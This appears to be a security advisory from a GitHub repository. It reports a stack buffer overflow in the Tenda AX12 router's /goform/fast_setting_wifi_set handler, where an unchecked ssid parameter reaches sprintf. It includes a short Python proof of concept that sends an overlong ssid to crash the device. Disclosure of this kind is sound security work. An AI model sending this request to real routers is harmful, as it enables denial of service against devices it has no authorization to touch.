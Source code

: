 # Tenda Router AX12 Vulnerability
This vulnerability lies in the `/goform/fast_setting_wifi_set` page which influences the lastest version of Tenda Router AX12_V22.03.01.16. (The latest version is [AX12_V22.03.01.21](https://www.tenda.com.cn/download/detail-3237.html))
## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function `sub_431CF0`.

In function `sub_431CF0` it reads user provided parameter `ssid` into `v2`, and this variable is passed into function `sprintf` without any length check, which may overflow the stack-based buffer `s`.
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/AC15/215_1/vlun2.png)

So by requesting the page `/goform/fast_setting_wifi_set`, the attacker can easily perform a Deny of Service Attack.
## POC
```
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/fast_setting_wifi_set?"
url += "ssid=" + "s" * 100

response = requests.get(url)
```
## Timeline
## Acknowledgment
Credit to [@Funcy_kilar](https://github.com/Funcy33) from Guangzhou University.
